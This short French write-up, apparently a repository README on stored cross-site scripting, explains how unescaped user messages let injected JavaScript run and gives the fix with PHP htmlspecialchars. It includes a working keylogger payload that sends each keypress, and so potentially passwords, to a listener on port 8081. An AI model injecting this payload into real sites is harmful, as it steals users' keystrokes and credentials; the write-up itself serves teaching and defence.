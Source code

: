 # Ijection JS
## Explication de la faille
Dans certains sites il est possible de laisser des messages que tout le monde va pouvoir afficher. Cependant dans certain cas, ces messages son afficher directement dans le code HTML sans aucune sécurité. Il sera alors possible par le biais des balises `<script>` de placer du code JavaScript du côté client.
Par exemple le bout de code suivant permet de mettre du côté client un keylogger qui va envoyer en temps réel toutes les touches sur lequel aura appuyé, donc potentiellement ses mots de passe.
```html
<script>
const userID = Math.round(Math.random() * 1000000);
document.getElementsByTagName("html")[0].onkeypress = (e) => {
    var l = e.which || e.keyCode;
    var http = new XMLHttpRequest();
    http.open("GET", `http://127.0.0.1:8081/${userID}?l=${l}`, true);
    http.send();
}
</script>
```
## Explication du correctif
Pour corriger cette faille, il faut utiliser la fonctionnalité PHP `htmlspecialchars($variable, ENT_QUOTES)` qui va encoder les caractères qui pourraient être interprétés dans le DOM afin qu'il ne le soit pas.